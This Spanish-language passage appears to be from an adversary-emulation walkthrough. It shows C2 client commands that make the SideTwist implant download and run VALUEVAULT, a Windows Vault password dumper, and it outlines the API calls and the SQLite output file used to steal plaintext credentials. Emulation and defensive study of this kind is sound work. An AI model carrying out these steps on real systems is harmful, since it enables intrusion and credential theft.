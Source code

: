 El operador envía un comando al implante SideTwist para descargar la herramienta:

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```

**Desglose del comando:**
- `102`: Código de operación para descarga de archivo
- `C:\Users\gosta\AppData\Roaming\b.exe`: Ruta de destino en el sistema objetivo
- `|b.exe`: Nombre del archivo en el servidor C2

**Proceso en el sistema objetivo:**
1. SideTwist recibe la instrucción durante su próximo beacon (máx. 5 minutos)
2. Realiza una petición HTTP GET al C2 para obtener el payload b.exe
3. El C2 responde con b.exe cifrado con XOR y codificado en Base64
4. SideTwist decodifica y descifra el archivo
5. Escribe b.exe en `C:\Users\gosta\AppData\Roaming\b.exe`
6. Reporta éxito al C2

**Paso 2: Ejecución de VALUEVAULT**

```bash
./evalsC2client.py --set-task goTb '101 C:\Users\gosta\AppData\Roaming\b.exe'
```

**Desglose del comando:**
- `101`: Código de operación para ejecución de comando
- El comando ejecuta b.exe (VALUEVAULT)

**Funcionamiento de VALUEVAULT:**

VALUEVAULT es una implementación en Go del concepto "Windows Vault Password Dumper". Realiza los siguientes pasos:

1. **Enumeración de Vaults**
   ```go
   // Abre el Windows Vault usando la API VaultEnumerateVaults
   VaultEnumerateVaults(0, &vaultCount, &vaultGuid)
   ```

2. **Acceso a Ítems del Vault**
   ```go
   // Para cada vault, enumera los ítems almacenados
   VaultOpenVault(vaultGuid, 0, &vaultHandle)
   VaultEnumerateItems(vaultHandle, 512, &itemCount, &items)
   ```

3. **Extracción de Credenciales**
   ```go
   // Obtiene las credenciales en texto claro
   VaultGetItem(vaultHandle, &itemGuid, 0, &item)
   ```

4. **Escritura de Resultados**
   - VALUEVAULT crea un archivo SQLite: `fsociety.dat`
   - Ubicación: `C:\Users\gosta\AppData\Roaming\fsociety.dat`
   - Estructura de la base de datos:
     ```sql
     CREATE TABLE credentials (
         url TEXT,
         username TEXT,
         password TEXT
     );
     ```
